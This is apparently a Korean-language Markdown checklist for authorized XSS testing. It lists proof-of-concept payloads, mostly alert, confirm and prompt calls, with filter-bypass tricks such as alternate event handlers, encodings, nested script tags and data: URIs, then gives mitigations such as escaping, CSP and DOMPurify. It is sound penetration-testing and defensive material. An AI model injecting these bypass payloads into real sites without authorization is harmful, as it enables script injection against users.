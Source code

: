 # XSS 점검 가이드 & 페이로드 모음 (Markdown 버전)

보안 점검 시 활용할 수 있는 **XSS 페이로드**, **점검 절차**, **대응 방안**을 한 문서로 정리했습니다.  
모든 예시는 **합법적이고 승인된 환경**에서의 연구/내부 점검 목적에만 사용하세요.



## 목차
- [개요](#개요)
- [추천 페이로드](#추천-페이로드)
- [점검 방법](#점검-방법)
- [상황별 점검 포인트](#상황별-점검-포인트)
- [패킷 관점 체크](#패킷-관점-체크)
- [대응 방안](#대응-방안)
- [유의 사항](#유의-사항)
- [참고](#참고)

---
***
ㅡㅡㅡ

## 개요
- 입력값이 **어느 컨텍스트**에 들어가는지(태그/속성/스크립트/URL 등)를 먼저 파악한 뒤, 해당 컨텍스트에서 **실행 가능**한 최소 페이로드부터 시도합니다.
- **패턴 기반 필터**만 믿지 말고, 아키텍처적으로 **신뢰되지 않은 입력을 HTML로 렌더링하지 않는** 방향을 우선 검토하세요.

> **주의**  
> 본 문서는 예시를 **코드 블록**으로만 제공합니다(자동 실행 없음). 승인되지 않은 시스템에 대한 테스트는 불법입니다.



## 추천 페이로드

### 1) 기본 테스트
```html
<script>alert(1111)</script>
```

### 2) `<script>` 태그가 차단될 때
```html
<details onpointerover=confirm(1111)></details>
```

### 3) 속성 값(value) 내부 삽입 (동작 유발 필요)
```html
" onkeydown=confirm(1111) contenteditable onfocus
```

### 4) 공백이 차단될 때
```html
<svg/onload=confirm(1111)/>
```

### 5) Polyglot XSS (컨텍스트 다중 호환)
> 여러 컨텍스트에서 동시에 유효하게 해석되도록 설계한 페이로드.  
> 프로젝트 성격에 맞춰 별도 섹션으로 확장하세요.



## 점검 방법

### A. 입력값 위치(컨텍스트) 파악
- **태그 속성 내부**
  ```html
  <input type="text" value="입력 값">
  ```
  따옴표 종료 후 이벤트 삽입:
  ```html
  <input value="test" onpointerover=confirm(1111)>
  ```

- **태그 외부(본문 영역)**
  ```html
  <a href="test.com">텍스트</a><script>alert(1111)</script>
  ```

### B. 필터링/치환 패턴 식별 및 우회
- 특수문자 제한(`"`, `<`, `(`, `=` 등) 시 **인코딩/대체 문자** 활용
- 이벤트 핸들러 제한(`onload`, `onerror` 등) 시 **대체 핸들러** 검토(예: `onpointerover`, `onkeydown`)
- `<script>` 차단 시 **대체 태그/기능** 활용
  ```html
  <svg onload=confirm(1111)>
  ```
  ```html
  <meta http-equiv="refresh" content="0;url=data:text/html,<script>alert(1111)</script>">
  ```

- **삭제/치환 기반 필터** 우회
  ```html
  <scr<script>ipt>alert(1111)</scr<script>ipt>
  ```

- **알림창 함수 필터링** 우회(속성/객체 경유)
  ```html
  <svg onload="window "/>
  ```

### C. 추가 문자열 주입(접두/접미) 대응
- 뒤에 문자열이 붙는 경우: `<!--` 등 **주석 처리**로 종료
- 앞에 붙는 경우: **태그 닫기** 후 새로운 구문으로 이탈



## 상황별 점검 포인트

- **특수문자 필터링**: `"`, `'`, `<>`, `()`, `:`, `=`
- **응답 맥락 탈출**: `" />`, `</script>` 등으로 컨텍스트 이탈 가능성 확인
- **대소문자 혼용**: `<sCriPt>` 등
- **이벤트 핸들러 필터링**: `onload`, `onerror`, `onclick` 차단 시 `ondrag`, `onfocus`, `onpointerover` 등 대체 검토
- **인코딩 시도**
  - URL: `%3Cscript%3E`
  - 유니코드: `<`
  - HTML 엔티티: `&#x3C;`
  - Base64: `data:text/html;base64,...`
- **태그 필터링 우회**: `<script>`, `<img>`, `<svg>` 차단 시 `<details>`, `<object>`, `<embed>` 등
- **하이퍼링크 기반**
  ```html
  <a href="javascript:confirm(1)">Click</a>
  ```
- **폼 전송 기반**
  ```html
  <form action="data:text/html,<script>alert(1111)</script>">
    <input type="submit">
  </form>
  ```
- **공백 필터링 우회**: `<svg/onload=...>` (환경/브라우저 의존성 주의)
- **hidden 필드 탈출 / iframe·object·embed·meta의 `data:` 스킴 활용** (환경 의존)

<details>
<summary><strong>추가 사례 모음 (접기/펼치기)</strong></summary>

- 알림창 전부 필터링 시 **리다이렉트/네비게이션** 등 대체 효과 검토  
  ```html
  <img src=x onerror="location.href='https://example.org'">
  ```

- `()` 필터링 시 **백틱** 활용 가능한지 확인  
  ```html
  alert`1`
  ```

- **응답 값 뒤에 문자열이 붙어 실패**할 때: 주석/닫기 태그로 무력화  
  ```html
  <img src onerror=prompt(1)<!--
  ```

- `<` 치환 시 앞에 `<` 추가 시도  
  ```html
  <x<svg/onload=prompt(1)/>/>
  ```
</details>



## 패킷 관점 체크
- **`location.hash` 사용 여부**: 응답 내 해당 참조가 있으면 `#<payload>`로 DOM XSS 가능성
- **POST→GET 변환**: 동일 파라미터가 GET으로도 반영되는지 확인 (렌더링 경로 차이로 성공 가능성↑)
- **전송 패킷엔 없지만 응답에 페이로드가 존재**: 응답에 있던 값을 **직접 전송**하여 반영되는지 재확인



## 대응 방안 (필수)
- **출력 이스케이프**: 컨텍스트별 적절한 이스케이프 적용
- **CSP(Content Security Policy)**: 스크립트 소스/인라인 제한, 보고 엔드포인트 설정
- **Sanitizer 적용**: 검증된 라이브러리(예: DOMPurify) 사용
- **아키텍처 개선**: 신뢰되지 않은 입력을 HTML로 렌더링하지 않도록 템플릿/렌더 경계 재설계

> **권장**  
> 패턴 기반 필터에만 의존하지 말고, **출력 컨텍스트 보안**과 **CSP**를 병행하세요.



## 유의 사항
- 고객사/사내 식별 가능 정보(도메인, 스크린샷, 내부 경로, 로그 등)는 **공개 저장소에 포함하지 마세요**.
- Git 이력(History)에 남은 민감 정보는 **레포 삭제/히스토리 재작성** 없이 완전 제거되지 않을 수 있습니다.



## 참고
- PortSwigger XSS Cheat Sheet  
  https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



© 2025 XSS Checklist · 연구/내부 점검 용도
